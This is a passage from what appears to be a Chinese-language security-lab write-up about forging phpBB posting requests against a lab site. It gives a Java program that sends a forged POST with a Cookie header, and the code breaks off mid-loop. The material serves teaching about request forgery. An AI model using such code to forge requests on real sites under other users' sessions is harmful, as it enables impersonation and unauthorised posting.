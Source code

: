 ### java模拟请求

> 一旦我们理解了消息发布的HTTP请求是什么样子的，我们就可以编写一个Java程序来发送相同的HTTP请求。phpBB服务器无法区分该请求是由用户的浏览器发送的，还是由攻击者的Java程序发送的。 
>
> 只要我们正确地设置了所有参数，服务器就会接受并处理消息发布的HTTP请求。为了简化您的任务，我们为您提供了一个示例java程序： https://www.cnblogs.com/skprimin/p/16011145.html

```java
import java.io.*;
import java.net.*;


public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
        try {
            int responseCode;
            InputStream responseIn = null;

            // 要伪造的URL
            URL url = new URL("http://www.xsslabphpbb.com/posting.php");

            // 创建URLConnection实例，以进一步参数化资源请求，以后的URL实例可以表示的状态。
            URLConnection urlConn = url.openConnection();

            if (urlConn instanceof HttpURLConnection) {
                urlConn.setConnectTimeout(60000);
                urlConn.setReadTimeout(90000);
            }

            // AddRequestProperty方法用于添加HTTP标头信息。
            // 在这里，我们将用户代理HTTP标头添加到伪造的HTTP数据包中。
            urlConn.addRequestProperty("Cookie", "");

            // HTTP发布数据包括要发送到服务器的信息。
            String data = "username=admin&seed=admin%40seed.com";
            // 应该将URL连接的DOUTPUT标志设置为TRUE以发送HTTP发布消息。
            urlConn.setDoOutput(true);

            // OutputStreamWriter 字节输出流 用于将HTTP POST数据写入URL连接。
            OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
            wr.write(data);
            wr.flush();

            // HttpURLConnection a subclass of URLConnection is returned by
            // url.openConnection() since the url is an http request.
            //因为URL是HTTP请求， HttpURLConnection 由 
            // URL.Openconnection（）返回URLConnection的子类，
            if (urlConn instanceof HttpURLConnection) {
                HttpURLConnection httpConn = (HttpURLConnection) urlConn;
                // 连接Web服务器并获取HTTP响应消息的状态代码。
                responseCode = httpConn.getResponseCode();
                System.out.println("Response Code = " + responseCode);

                // HTTP状态代码HTTP_OK表示已成功收到响应。
                if (responseCode == HttpURLConnection.HTTP_OK) {
                    // 从URL连接对象获取输入流。
                    responseIn = urlConn.getInputStream();

                    // 为字节读入流BufferedReader创建一个实例，以按行读取响应行。
                    BufferedReader buf_inp = new BufferedReader(new InputStreamReader(
                                responseIn));
                    String inputLine;

                    while ((inputLine = buf_inp.readLine()) != null) {
```